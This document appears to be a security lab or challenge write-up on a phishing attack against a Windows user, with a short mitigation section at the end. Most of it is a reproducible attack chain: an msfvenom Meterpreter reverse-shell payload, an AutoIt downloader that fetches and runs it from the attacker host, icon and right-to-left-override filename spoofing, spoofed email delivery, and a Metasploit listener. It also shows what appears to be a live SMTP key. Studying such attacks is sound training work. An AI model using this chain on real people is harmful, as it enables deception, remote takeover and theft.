





# Challenge 03: Exploiting the Human Element via Social Engineering

## Scenario
After a thorough scan, no exploitable server-side vulnerabilities have been found on the corporate network. The perimeter appears to be secure from a technical standpoint. In this situation, the attack focus shifts from exploiting systems to exploiting people. Your task is to plan and execute a social engineering attack to gain internal network access by tricking a user into running a malicious payload.

---

## Objective
- Gather information about a potential target.
- Create a Trojan disguised as a legitimate file.
- Deliver the payload to the target via a spoofed phishing email.
- Gain remote access to the target's machine.

---

## Environment

### Attacker
- **OS:** Kali Linux
- **IP:** 192.168.1.144

### Public Server (Optional)
- **OS:** Ubuntu
- **Public IP:** 101.99.74.214
- **Services:** Apache2, Postfix, PHP
- **Purpose:** Hosting the email spoofing script (`send.php`)

### Target User
- **OS:** Windows 11

---

## Tools Used
- `Maltego`
- `msfvenom`
- `Apache2`
- `AutoIt`
- `sendemail`
- `postfix`
- `php`
- `msfconsole` (Metasploit Framework)

---

## Attack Overview
1.  **Phase 1: Research the Target:** Use open-source intelligence (OSINT) to gather information about the target to make the phishing attempt more credible.
2.  **Phase 2: Create the Trojan:** Generate a reverse shell payload and package it within a compiled AutoIt script disguised as a harmless file (e.g., an image).
3.  **Phase 3: Payload Delivery (Email Phishing):** Send a spoofed email to the victim containing a link to the Trojan.
4.  **Phase 4: Gaining Access (Listener):** Set up a listener on the attacker machine to catch the reverse shell when the user executes the Trojan.

---
## Steps to Reproduce

### Phase 1: Research the Target

#### Step 1: Information Gathering
1.  Use Maltego or other OSINT tools to gather information about the target organization or individual. This can help you craft a more believable phishing email.
    *   *Example: Find employee names, email addresses, or interests from public sources.*


### Phase 2: Create the Trojan

#### Step 1: Generate a Backdoor
1.  Use `msfvenom` to create a `windows/meterpreter/reverse_https` payload. This payload will attempt to connect back to your Kali machine.
```bash
msfvenom --payload windows/meterpreter/reverse_https LHOST=192.168.1.144 LPORT=8443 --format exe --out payload.exe
```

#### Step 2: Host the Backdoor
1.  Start the Apache web server on your Kali machine to host the payload.
```bash
systemctl start apache2
```
2.  Copy the generated payload to the web server directory.
```bash
cp payload.exe /var/www/html/
```

#### Step 3: Prepare the Downloader Script
1.  Use the provided `autoit-payload.txt` script. This script will download and execute two files: a decoy image to distract the user and your malicious `payload.exe`.
2.  Modify the `Local $urls` line.
    *   The first URL should be a legitimate link to an image or document (the decoy).
    *   The second URL **must** point to the `payload.exe` hosted on your Kali machine.
```au3
Local $urls = "https://hips.hearstapps.com/hmg-prod/images/ferrari-e-suv-2-copy-680287cac36b2.jpg,http://192.168.1.144/payload.exe"
```
3.  Save the modified script with an `.au3` extension (e.g., `downloader.au3`).

#### Step 4: Compile the Script
1.  Use the AutoIt compiler (`Aut2Exe`) on a Windows machine to convert your `downloader.au3` script into a Windows executable (`.exe`).
2.  **Icon Spoofing:** During compilation, change the file's icon to match the decoy file type (e.g., a JPG icon). You can find and convert icons using services like [IconArchive](https://www.iconarchive.com/) or [RW-Designer](https://www.rw-designer.com/image-to-icon). This makes the executable appear as a legitimate image file.


#### Step 5: Obfuscate the File Extension
1.  To make the executable even more convincing, use the "Right-to-Left Override" (RLO) Unicode character to spoof the file extension.
2.  Rename the compiled file to something like `Ferrari-Image-gpj.exe`.
3.  Place your cursor between the `-` and the `g`.
4.  Insert the RLO Unicode character (`U+202E`), which you can copy from a site like [Unicode Explorer](https://unicode-explorer.com/c/202E). The filename will now appear as `Ferrari-Image-exe.jpg`.


#### Step 6: Host the Final Trojan
1.  To ensure the RLO character is preserved, compress the final spoofed executable into a `.zip` archive.
```bash
zip Ferrari-Image.zip Ferrari-Image-gpj.exe 
```
2.  Upload the `.zip` file to your Apache web server on Kali.
```bash
cp Ferrari-Image.zip /var/www/html/
```

### Phase 3: Payload Delivery (Email Phishing)
You can use one of two methods to send the phishing email.

#### Method 1: Using a PHP Script on a Public VPS
This method offers more control but requires a public VPS and a domain.
1.  **Configure Postfix:** On your VPS, you may need to configure Postfix to send mail from your domain. Edit `/etc/postfix/main.cf` and set `myhostname = your-domain.com`.
2.  **Prepare the PHP Script:** Use the provided `send.php` script and set the envelope sender. This method only works if you have a compromised email on a server with poor DNS security (e.g. DMARC/DKIM/SPF).
```php
$envelope_sender = "info@your-domain.com";
```
3.  **Deploy the script:** Copy `send.php` to the webroot on your VPS.
```bash
cp send.php /var/www/html
```
4.  **Send the Email:** Navigate to `http://101.99.74.214/send.php` in your browser. Fill out the web form with a link to your Trojan (`http://192.168.1.144/Ferrari-Image.zip`) in the message body, and click send.


#### Method 2: Use an Online SMTP Service (Brevo)
If you don't have a VPS, you can use a free SMTP relay service like Brevo.
1.  Create an account at `app.brevo.com`.
2.  Go to **Settings > SMTP & API** and generate a new SMTP Key. Note the **SMTP Server**, **Port**, **Login**, and **SMTP Key**.


3.  On your Kali machine, use a command-line tool like `sendemail` to send the email through Brevo's relay.
```bash
sendemail -xu 8c45a6002@smtp-brevo.com -xp xsmtpsib-ddd956398e56dvv12f99366e2e8547df6fd2522as60ec461fe68e1768538dese-P1p0K66vV7yL1tka -s smtp-relay.brevo.com:587 -f "raushad21@gmail.com" -t "raushad21@gmail.com" -u "This is The Title" -m "This is the email body content with the url " -o message-header="From: Ahmad Maslan <raushad21@gmail.com>"
	# -xu login
	# -xp smtp-key
	# -s smtp server
	# -f from email address
	# -t target email address
	# -u title
	# -m body
```
*Replace the placeholders with your Brevo credentials and desired email content.*

### Phase 4: Gaining Access (Listener)
Finally, set up a listener in Metasploit to receive the incoming connection from the Trojan.

1.  Launch `msfconsole`.
```bash
msfconsole
```
2.  Configure the `exploit/multi/handler` to match the payload you created.
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.1.144
msf6 exploit(multi/handler) > set LPORT 8443
```
3.  Start the listener.
```
msf6 exploit(multi/handler) > exploit
```
4.  Once the target downloads, unzips, and runs your disguised executable, the AutoIt script will fetch and run `payload.exe`. This will trigger the reverse shell, and a Meterpreter session will open in your `msfconsole`.

---

## Results
- A Meterpreter session was successfully established on the target's machine.
- The attacker now has remote control over the compromised system, with the privileges of the user who ran the executable.

---

## Impact
- **Data Theft:** The attacker can access, steal, or exfiltrate sensitive files and data from the user's machine.
- **Credential Harvesting:** Keyloggers or other tools can be deployed to steal passwords for corporate accounts, banking sites, and other services.
- **Network Pivoting:** The compromised machine can be used as a beachhead to launch further attacks against other systems on the internal network.
- **Malware Deployment:** The attacker can install persistent backdoors, ransomware, or other malicious software.

---

## Mitigation & Defensive Measures

### User & Organizational
- **Security Awareness Training:** Train users to identify phishing attempts, recognize suspicious links, and be wary of unsolicited attachments, even if they appear to come from a trusted source.
- **Email Security Gateways:** Implement solutions that scan incoming emails for malicious links, attachments, and signs of spoofing (DMARC, DKIM, SPF).
- **Endpoint Protection (EDR/XDR):** Deploy advanced antivirus and EDR solutions that can detect and block malicious scripts and processes, even if they are obfuscated.

### Technical Controls
- **File Extension Visibility:** Configure Windows to always show file extensions. This makes it harder for attackers to disguise `.exe` files as other file types.
- **Application Whitelisting:** On high-security workstations, use policies that only allow approved applications to run, preventing unauthorized executables like the Trojan from launching.
- **Network Egress Filtering:** Block or monitor outbound connections on unusual ports (though this attack uses a common port, 8443, to blend in).

---

## Lessons Learned
- The human element is often the weakest link in the security chain. Technical controls alone are not sufficient.
- Social engineering attacks are highly effective because they exploit human trust and curiosity.
- Obfuscation techniques (like icon spoofing and RLO) can make malicious files appear benign to the average user.
- A multi-layered defense, combining technical controls with robust user education, is crucial for mitigating social engineering threats.
